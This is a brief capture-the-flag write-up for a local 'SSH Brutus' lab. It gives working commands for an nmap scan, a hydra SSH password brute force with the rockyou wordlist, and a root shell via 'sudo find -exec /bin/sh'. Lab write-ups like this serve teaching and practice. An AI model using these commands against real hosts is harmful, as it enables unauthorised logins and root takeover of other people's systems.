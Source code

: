 # CTF 1: SSH Brutus

**Requirement**:
- docker
- nmap
- hydra
- wordlist rockyou.txt

## Plan of Engagement
1. Port Scanning -> 22
2. SSH Exploit (brute force)
3. Privilege escalation with sudo find to root


## External Resources
- [GTFOBins](https://gtfobins.github.io/)

## Solution
Nmap port scan:
```sh
sudo nmap -sS -sC -F 127.0.0.1
```

Crack password:
```sh
hydra -l brutus -P /usr/share/wordlists/rockyou.txt 127.0.0.1 ssh
```

Privileges escalation:
```Sh
sudo find . -exec /bin/sh \; -quit
```
